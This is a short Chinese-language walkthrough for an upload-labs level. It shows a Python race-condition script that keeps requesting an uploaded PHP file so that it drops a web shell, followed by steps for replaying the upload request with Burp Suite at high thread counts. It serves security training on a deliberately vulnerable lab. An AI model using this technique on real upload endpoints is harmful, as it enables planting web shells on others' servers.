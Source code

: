 - 首先编写一个脚本，能一直访问上传的文件，造成条件竞争

- ```python
  import requests
  url = 'http://192.168.2.195/upload-labs/upload/17.php' #竞争文件路径
  url2 = 'http://192.168.2.195/upload-labs/upload/upshell.php' #生成的shell路径
  while True:
      res = requests.get(url)
      print(res.status_code)
      if res.status_code == 200:
          res2 = requests.get(url2)
          if res2.status_code == 200:
              break
      
  print('is ok')
  ```

- 使用bp抓取上传文件的包，然后设置一个变量，这个变量可以不存在，为的是bp能够持续重放

- ![image-20220823134932917](assets/image-20220823134932917.png)

- 设置好线程数以及线程池

- ![image-20220823134952181](assets/image-20220823134952181.png)

- 先运行python脚本

- ```
  pythno3 get.py
  ```

- 然后在bp中开启重放攻击

- ![image-20220823135041368](assets/image-20220823135041368.png)
